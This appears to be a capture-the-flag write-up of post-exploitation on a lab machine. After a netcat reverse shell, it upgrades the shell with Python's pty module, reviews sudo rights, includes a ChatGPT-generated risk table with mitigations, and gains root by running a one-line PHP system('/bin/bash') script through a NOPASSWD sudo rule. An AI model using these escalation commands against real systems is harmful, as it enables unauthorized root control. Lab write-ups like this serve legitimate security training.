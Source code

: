 
After establishing our reverse shell with netcat from metasploit, we need to cement our foothold. 

Upgrade our shell to one that supports TTY

```shell-session
python -c 'import pty; pty.spawn("/bin/bash")'
```

This command fails as the system doesn't have python2 so we execute the command below

```shell-session
which python3
```

we have Python3 avaliable and from there our netcat session has escalated

```shell-session
python3 -c 'import pty; pty.spawn("/bin/bash")'
``` 

![[../2. Recon/Images/Pasted image 20241007215316.png]]

we can now run commands like sudo -l to determine permissions
![[../2. Recon/Images/Pasted image 20241007220720.png]]

Running these permissions through ChatGPT we can get a more human readable threat assessment.

| **Item**                       | **Details**                                                        |
|---------------------------------|--------------------------------------------------------------------|
| **Command**                     | `sudo /usr/bin/php`                                                |
| **User**                        | `www-data`                                                         |
| **Privileges**                  | Can run **PHP** as **any user** without needing a password (`NOPASSWD`) |

### Security Risks

| **Risk**                 | **Description**                                                                                                        |
| ------------------------ | ---------------------------------------------------------------------------------------------------------------------- |
| **Full Root Access**     | PHP can execute system commands (e.g., `system()`, `exec()`), allowing full root control.                              |
| **Privilege Escalation** | Attackers can: <ul><li>Read/modify sensitive files (e.g., `/etc/shadow`).</li><li>Open a root shell via PHP.</li></ul> |
| **Ease of Exploitation** | No password is required to run PHP scripts as root, simplifying exploitation.                                          |
| **Web Exploits**         | If `www-data` is tied to a web server, vulnerable web apps can be used to escalate privileges to root.                 |

### Exploit Example

| **PHP Script**                 | **Effect**                                  |
|--------------------------------|---------------------------------------------|
| ```php <?php system("/bin/bash"); ?> ``` | Spawns a **root shell** when run via `sudo /usr/bin/php /path/to/script.php`. |

### Mitigation

| **Recommendation**              | **Action**                                                         |
|---------------------------------|--------------------------------------------------------------------|
| **Remove NOPASSWD**             | Require a password for `sudo` or restrict specific PHP commands.   |
| **Monitor www-data**            | Track activity, especially sudo actions.                           |
| **Harden Web Applications**     | Ensure no remote code execution vulnerabilities in web apps.       |

From this info we can quickly execute the simple 2 line script below

```shell script
echo '<?php system("/bin/bash"); ?>' > /tmp/root_shell.php
sudo /usr/bin/php /tmp/root_shell.php
```

![[../2. Recon/Images/Pasted image 20241007221231.png]]

We have now established ourselves as the root user and capture the final flag.

![[../2. Recon/Images/Pasted image 20241007222806.png]]